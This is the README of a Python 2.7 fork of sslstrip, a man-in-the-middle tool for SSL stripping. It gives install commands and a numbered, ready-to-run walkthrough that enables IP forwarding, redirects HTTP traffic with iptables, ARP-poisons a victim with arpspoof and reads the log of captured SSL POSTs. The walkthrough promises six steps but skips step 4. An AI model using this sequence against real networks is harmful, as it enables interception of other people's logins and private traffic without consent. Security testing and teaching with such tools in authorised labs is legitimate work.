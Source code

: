 # sslstrip patched to run with python 2.7

sslstrip is a MITM tool that implements Moxie Marlinspike's SSL stripping attacks.

This is a fork to make it work again with python 2.7. It requires Python 2.7, along with the `twisted`, `pyopenssl`, and `service_identity` python modules.

## Install

>This installation instructions assume that you have Python 2.7 installed and that it is the python version used by default (if it is not just change `python` to `python2` hereafter).

If you don't have `pip` for python 2 already installed, you can install it (besides distro-specific ways) with:

```console
$ curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py
$ sudo python get-pip.py
```

Now you can install the python 2 module dependencies with:

```console
$ pip install twisted pyopenssl service_identity
```

And now you can clone this repo and install sslstrip

```console
$ git clone https://github.com/juanelas/sslstrip.git
$ cd sslstrip
$ sudo python setup.py install
```

> If you'd rather not install `sslstrip`, you can always run `sslstrip` from the source base by just typing `python sslstrip.py` and then the rest of options (see Usage below)

## Usage

Just run `sslstrip -h` as a non-root user to get the command-line options.

```text
sslstrip 0.9.1
Usage: sslstrip <options>

Options:
-w <filename>, --write=<filename> Specify file to log to (optional). Default is sslstrip.log
-p , --post                       Log only SSL POSTs. (default)
-s , --ssl                        Log all SSL traffic to and from server.
-a , --all                        Log all SSL and HTTP traffic to and from server.
-l <port>, --listen=<port>        Port to listen on (default 10000).
-f , --favicon                    Substitute a lock favicon on secure requests.
-k , --killsessions               Kill sessions in progress.
-h                                Print this help message.
```

The six steps to getting this working (assuming you're running Linux) are:

1) Flip your machine into forwarding mode (as root).

   ```console
   $ sudo echo "1" > /proc/sys/net/ipv4/ip_forward
   ```

   > If you want to make this change persist after reboot, in Debian-like distros you could better uncomment `net.ipv4.ip_forward=1` in `/etc/sysctl.conf` and reload it with:
   >```console
   >$ sudo sysctl -p
   >```

2) Run the sslstrip transparent proxy listening at port `<yourListenPort>` (if the `-l` option is omitted, `sslstrip` will listen on port `10000`)

   ```console
   $ sslstrip -l <yourListenPort>
   ```

3) Open a new terminal and setup `iptables` to intercept HTTP requests (port 80/tcp) and send them to your sslstrip transparent proxy:

   ```console
   $ sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port <yourListenPort>
   ```

5) Use `arpspoof` to poison the victim's ARP table so that it sends all traffic to the Internet to your machine instead of its default gateway:

   ```console
   $ sudo arpspoof -t <victimIpAddress> <routerIpAddress>
   ```

   > `arpspoof` is part of the `dsniff` suite. In Debian-like distros, if not already installed, you can install it with:
   >```console
   >$ sudo apt update && sudo apt install dsniff
   >```

6) Open a network sniffer (e.g. wireshark, tcpdump), or directly inspect the sslstrip log file (`sslstrip.log` by default), e.g. by running in other terminal
   ```console
   $ tail -f sslstrip.log
   ```
